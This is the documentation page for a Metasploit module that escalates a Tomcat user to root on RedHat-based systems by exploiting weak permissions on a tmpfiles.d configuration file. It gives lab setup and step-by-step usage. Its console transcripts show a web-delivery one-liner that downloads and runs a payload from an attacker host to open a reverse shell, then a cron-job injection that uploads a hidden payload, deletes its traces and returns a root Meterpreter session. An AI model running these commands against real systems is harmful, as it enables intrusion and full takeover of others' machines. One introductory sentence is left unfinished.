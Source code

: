 ## Vulnerable Application

This module exploits a vulnerability in RedHat based systems where
improper file permissions are applied to `/usr/lib/tmpfiles.d/tomcat.conf`
for Apache Tomcat versions before 7.0.54-8.  This may also work against

The configuration files in `tmpfiles.d` are used by `systemd-tmpfiles` to manage
temporary files including their creation.

With this weak permission, we're able to inject commands into `systemd-tmpfiles`
service to write a cron job to execute our payload.

`systemd-tmpfiles` is executed by default on boot on RedHat-based systems
through `systemd-tmpfiles-setup.service`. Depending on the system in use,
the execution of `systemd-tmpfiles` could also be triggered by other
services, cronjobs, startup scripts etc.

This module was tested against Tomcat 7.0.54-3 on Fedora 21.

### Install

This will install Tomcat 7 (7.0.54-3) on Fedora 21.

We also change the `tomcat` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-lib-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-collections-3.2.1-20.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-daemon-1.0.15-8.fc21.x86_64.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-dbcp-1.4-16.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-logging-1.1.3-14.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-pool-1.6-9.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-el-2.2-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-jsp-2.2-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-servlet-3.0-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/e/ecj-4.4.0-1.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/g/geronimo-jta-1.1.1-17.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/g/geronimo-jms-1.1.1-19.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/l/log4j12-1.2.17-7.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/j/javamail-1.5.1-3.fc21.noarch.rpm
rpm -i *.rpm
sudo sed -i 's|/bin/nologin|/bin/bash|g' /etc/passwd
```

You can now `su tomcat` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user
4. Do: `use exploit/linux/local/tomcat_rhel_based_temp_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### WritableDir

A directory where we can write and execute files. Defaults to `/tmp`.

## Scenarios

### Tomcat 7 (7.0.54-3) on Fedora 21

Initial shell

```
msf > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(multi/script/web_delivery) > set target 7
target => 7
msf exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/fGd5wnh85
[*] Server started.
[*] Run the following command on the target machine:
wget -qO TbT9zhqH --no-check-certificate http://1.1.1.1:8080/fGd5wnh85; chmod +x TbT9zhqH; ./TbT9zhqH& disown

msf exploit(multi/script/web_delivery) > 
[*] 2.2.2.2      web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41270) at 2023-01-19 15:22:23 -0500

msf exploit(multi/script/web_delivery) > jobs -K
Stopping all jobs...

[*] Server stopped.
msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat
meterpreter > sysinfo
Computer     : localhost.domain
OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_rhel_based_temp_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set verbose true
verbose => true
msf exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set session 1
session => 1
msf exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 7.0.54.pre.3
[*] Creating backup of /usr/lib/tmpfiles.d/tomcat.conf
[+] Original /usr/lib/tmpfiles.d/tomcat.conf backed up to /root/.msf4/loot/20230119152336_default_2.2.2.2_usrlibtmpfile_530018.txt
[*] Uploading Payload to /tmp/.4ptbf6f4fW
[*] Writing '/tmp/.4ptbf6f4fW' (1068640 bytes) ...
[*] Writing permission elevation into /usr/lib/tmpfiles.d/tomcat.conf
[*] Creating cron job in /etc/cron.d/grPwZ
[+] Waiting 1800 seconds on tmpfiles-setup.service to restart (/usr/bin/systemd-tmpfiles --create)
[*] Sleeping for 2 seconds before attempting again
[*] Sleeping for 4 seconds before attempting again
[*] Sleeping for 8 seconds before attempting again
[-] /etc/cron.d/grPwZ not found, checking in 10 seconds
[*] Waiting on cron to kick the payload (~1 minute)
[+] Deleted /tmp/.4ptbf6f4fW
[+] Deleted /etc/cron.d/grPwZ
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:41271) at 2023-01-19 15:24:24 -0500

meterpreter > getuid
Server username: root
```
